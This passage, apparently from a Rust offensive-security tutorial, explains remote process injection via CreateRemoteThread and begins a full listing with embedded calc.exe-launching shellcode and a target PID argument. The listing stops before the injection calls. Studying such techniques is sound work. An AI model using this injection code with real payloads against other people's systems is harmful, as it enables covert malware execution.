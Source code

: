 #### `Transmute` in Rust

&#x20;[Transmute](https://doc.rust-lang.org/std/mem/fn.transmute.html) is a function in Rust which allows to re-interpret the variable into another type (in an unsafe way). In our case, it converts the `buf` variable to what is expected by the `CreateRemoteThread` function which is `LPTHREAD_START_ROUTINE`. So we try tell the compiler that this buf should be treated as a function pointer which it does and we finally see our calc popping out.

### Full Code  & Output

```rust
#![allow(warnings)]

use windows::Win32::{
    Foundation::{CloseHandle, GetLastError},
    System::{
        Diagnostics::Debug::WriteProcessMemory, 
        Memory::{VirtualAllocEx, MEM_COMMIT, MEM_RESERVE, PAGE_EXECUTE_READWRITE}, 
        Threading::{CreateRemoteThread, OpenProcess, PROCESS_ALL_ACCESS, THREAD_ALL_ACCESS},
    },
};

use std::{
    os::raw::c_void, 
    ptr::{null, null_mut},
    mem::transmute,
};

fn main() {

    let shellcode: [u8; 276] = [0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,
    0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,
    0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,
    0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,
    0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,
    0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,
    0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,
    0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,
    0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,
    0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,
    0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,
    0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,
    0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,
    0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,
    0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,
    0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,
    0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,
    0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,
    0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,
    0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,
    0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,
    0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,
    0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,
    0x2e,0x65,0x78,0x65,0x00];

    let args: Vec<_> = std::env::args().collect();
    if args.len() > 2 {
        println!("Ignoring {} extra args", args.len() - 2);
        println!("[*] Usage: {} <PID>", args[0]);
    }
    let pid: u32 = args[1].parse().expect("Please provide a valid integer");
    let shell_size = shellcode.len();

    unsafe {
```